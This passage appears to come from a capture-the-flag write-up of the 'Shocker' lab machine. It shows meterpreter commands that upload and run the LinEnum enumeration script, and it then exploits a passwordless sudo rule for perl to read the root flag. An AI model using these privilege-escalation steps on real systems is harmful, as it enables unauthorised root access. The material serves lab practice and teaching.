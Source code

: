 So let's upload this script and see what we get!

```
meterpreter > upload LinEnum.sh /tmp
[*] uploading  : LinEnum.sh -> /tmp
[*] uploaded   : LinEnum.sh -> /tmp/LinEnum.sh
meterpreter > shell
Process 7565 created.
Channel 19 created.
chmod +x /tmp/LinEnum.sh
/tmp/LinEnum.sh > /tmp/LinEnum.out
^C  
Terminate channel 20? [y/N]  y
meterpreter > download /tmp/LinEnum.out /tmp
[*] Downloading: /tmp/LinEnum.out -> /tmp/LinEnum.out
[*] Downloaded 231.60 KiB of 231.60 KiB (100.0%): /tmp/LinEnum.out -> /tmp/LinEnum.out
[*] download   : /tmp/LinEnum.out -> /tmp/LinEnum.out
```

Browsing through the output, we see something interesting:

```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Just as the hint `.sudo_as_admin_successful` led us to believe, the ability to `sudo` to
`root`! So let's write a simple `perl` script and get to work!

```
meterpreter > cat /tmp/gimme_root.pl
#! /usr/bin/perl

system ('cat /root/root.txt');
meterpreter > shell
Process 7236 created.
Channel 16 created.
/usr/bin/perl /tmp/gimme_root.pl
cat: /root/root.txt: Permission denied
sudo /usr/bin/perl /tmp/gimme_root.pl
52c2715605d70c7619030560dc1ca467
```
